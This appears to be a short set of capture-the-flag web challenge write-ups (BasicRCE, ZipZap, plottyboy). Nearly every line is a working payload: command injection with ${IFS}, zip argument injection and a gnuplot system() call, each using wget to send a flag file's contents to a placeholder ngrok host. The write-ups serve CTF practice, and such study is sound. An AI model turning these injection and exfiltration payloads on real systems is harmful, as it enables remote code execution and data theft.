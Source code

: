 \chapter{Web Writeups}

\section{WS_1.01 - BasicRCE}
\texttt{;wget$\{IFS\}https://<your-token>.ngrok-free.app/\$(cat$\{IFS\}/flag.txt)}

\section{WS_1.03 - ZipZap - level 2}
\texttt{zip archive.zip ./-T ./-TT "bash rce" rce}

 containing: \texttt{wget https://<your-token>.ngrok-free.app/\$(/getflag)}

\section{WS_1.04 - plottyboy}
Identification: \texttt{sin(x); pause 10")} -> 10 seconds are waited before the rendered image is served? yes.
This demonstrates the system uses gnuplot (acually, wrapped with PyGnuplot).

\texttt{sin(x); print system("wget https://<your-token>.ngrok-free.app/\$(cat /flag.txt)")}
